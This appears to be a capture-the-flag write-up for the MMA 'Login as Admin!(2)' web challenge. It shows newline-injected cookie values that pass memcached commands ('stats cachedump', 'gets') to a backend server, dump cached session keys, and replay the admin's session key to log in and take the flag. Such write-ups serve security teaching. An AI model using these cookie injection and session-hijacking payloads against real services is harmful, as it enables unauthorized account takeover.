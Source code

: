 # MMA : Login as Admin!(2)

#### Author: Wh1t3Fox

**Description**:
> Login as Admin!
>
> http://login2.chal.mmactf.link
>
> You can use test:test account.

After playing around on the website and with different parameters I noticed that when changing the cookie
to be *%0a* to test for memcached injection and the site would dumped a *MemcacheError:ERROR ERROR*.
This is awesome so we know that there is a memcached server running on the backend.

After searching online I found a memcached server cheat sheet located at http://lzone.de/cheat-sheet/memcached

There was a command:

    stats cachedump <slab class> <number of items to dump>

So I tried to dump some of the classes starting at 0 and going up. Setting the cookie to:

    Cookie: %0astats cachedump 0 0

    MemcacheError:ERROR END

Then I tried:

    Cookie: %0astats cachedump 1 0

    MemcacheError:ERROR ITEM key [1 b; 1441762228 s] ITEM 12345 [20 b; 1441494967 s] END

So it looks like I'm on the right track maybe? I continued to increase and at slab class 3 is where the fun began.

    Cookie: %0astats cachedump 3 0

    MemcacheError:ERROR
    ITEM 3f063d8659f0f08c4454554294aca59bbe42cc6e11db23eb69f5a1c0a9486aa1 [19 b; 1442016274 s]
    ITEM 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab [20 b; 1441494967 s]
    ITEM 09cf27be606344f29bda74bd7c035e6d862c95025a2a6bb1785c8883ae65b18a [16 b; 1441494967 s]
    ITEM b33542ed3c8bf5c2c346e26aac28a10055fa6a50c4948873810798e9f4cfca98 [20 b; 1441494967 s]
    ITEM e391306f6481940ab3c796eb1253435b06e9a9357227de734b0ec3f58bd14d7f [19 b; 1442011213 s]
    ITEM c706b288065ad5c29153d8773c3e3be6e8a07408cdf4e0e40e97917896e43839 [19 b; 1442012877 s]
    ITEM a5e754e6e804bf7e49f8096242a6566cc337b06aa6c2dafda3f86edccf8cb4b3 [19 b; 1442011191 s]
    ITEM edf938c33d05ff9f8696415d5ef817014a5cc2906abe24576fdafe8ae58dde48 [19 b; 1442010879 s]
    ITEM 5f7d07e310e9fad574d0975741a9c05d0d75d7157ce9bb9546b7f58d940cee7a [19 b; 1442006048 s]
    ITEM 3d1a32800a501fe7387287ba4631ae9318206ef96083a29f35fd1ef42f7a85c5 [19 b; 1441998916 s]
    ...

Noticing that **most** of the sizes were 19b except a few, thanks to Daniele, I focuses on the 20b and use the key to see what the value was.

    Cookie: %0agets 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab

    MemcacheError:ERROR VALUE 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab 0 20 56850 {"username":"admin"} END

Yes! So we just found an entry the admin used when logging in. From there I tried this key as my cookie value.

    Cookie: 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab

    Flag is "MMA{61016d84e70e0b5ed5c03e4e398c3571}"
